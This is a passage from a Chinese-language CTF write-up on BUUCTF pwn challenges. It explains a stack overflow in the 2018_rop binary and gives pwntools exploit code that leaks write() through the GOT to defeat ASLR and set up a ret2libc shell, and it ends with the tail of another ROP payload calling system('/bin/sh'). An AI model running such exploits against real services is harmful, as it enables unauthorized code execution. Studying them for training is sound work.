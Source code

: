 ```python
payload = b'a'*0x20 + b'fuckpwn!' + p64(pop_ret) + p64(pop_rdi) + p64(bin_sh_address) + p64(system_address)
io.sendlineafter(b'Pull up your sword and tell me u story!\n', payload)
io.interactive()
```

![](https://paper.tanyaodan.com/BUUCTF/bjdctf_2020_babyrop/6.png)

------

------

### [铁人三项(第五赛区)_2018_rop](https://buuoj.cn/challenges#%E9%93%81%E4%BA%BA%E4%B8%89%E9%A1%B9(%E7%AC%AC%E4%BA%94%E8%B5%9B%E5%8C%BA)_2018_rop)

先`file ./2018_rop`查看文件类型再`checksec --file=2018_rop`检查一下文件保护情况。

![](https://paper.tanyaodan.com/BUUCTF/2018_rop/1.png)

用`IDA Pro 32bit`打开附件`2018_rop`，按`F5`反汇编源码并查看主函数，双击`be_nice_to_people()`函数查看详情并没有发现什么，

![](https://paper.tanyaodan.com/BUUCTF/2018_rop/2.png)

双击`vulnerable_function()`函数，发现该函数中有个`buf`变量是`char`型数组，`buf`的长度只有`0x88`，`read()`函数限制了输入到`buf`变量的字节数为`0x100`，显然存在栈溢出漏洞。构造`payload`时先用`0x88`个字节占满`buf`变量，再加上`4`个字节覆盖到返回地址。

![](https://paper.tanyaodan.com/BUUCTF/2018_rop/3.png)

在`Function Window`中并没有找到`system()`函数和`'/bin/sh'`字符串，但是主函数中有`write()`函数啊！程序执行前，`got`表中存放的还是`plt`表的地址，但是程序执行后，`plt`表中存放的是`got`表的地址，`got`表中存放的是函数的真实地址。因此我们可以用`ELF`来获取`write()`函数的`plt`表和`got`表地址，进行栈溢出并通过`write()`函数泄露`write()`函数在`got`表中的真实地址后，进而判断`libc`的版本，然后我们可以根据`libc`版本中`write()`函数的偏移地址来计算出`libc`的基址地址，再根据`libc`中的`system()`函数和`'/bin/sh'`字符串的偏移地址来算出函数的真实地址，从而构造`shellcode`拿到`flag`。

其中`write()`函数原型如下：

```c
ssize_t write(int fd, const void*buf, size_t count);
// write()会把参数buf所指的内存写入count个字节到参数fd所指的文件内。
// fd:是文件描述符（write所对应的是写，即就是1）
// buf:通常是一个字符串，需要写入的字符串
// count：是每次写入的字节数
```

编写`Python`代码即可得到`flag{f3efd9be-b4a5-4fd3-9446-49c300eaf93c}`。

```python
from pwn import *
from LibcSearcher import *

context(arch='i386', os='linux', log_level='debug')
io = remote('node4.buuoj.cn', 29081)
e = ELF('./2018_rop')
write_plt = e.plt['write']
log.success('write_plt => %s' % hex(write_plt))
write_got = e.got['write']
log.success('write_got => %s' % hex(write_got))
main_address = e.symbols['main']
log.success('main_address => %s' % hex(main_address))
payload = b'a'*0x88 + b'fuck' + p32(write_plt) + p32(main_address) # 栈溢出，返回地址填写write()函数在plt表中的地址，并加上main()函数地址以再次执行程序
payload += p32(0) + p32(write_got) + p32(4) # write()函数的参数
io.sendline(payload)
write_address = u32(io.recv(4))
log.success('write_address => %s' % hex(write_address))
libc = LibcSearcher('write', write_address) # 获取libc版本, libc6-i386_2.27-3ubuntu1_amd64
libcbase = write_address - libc.dump('write')
```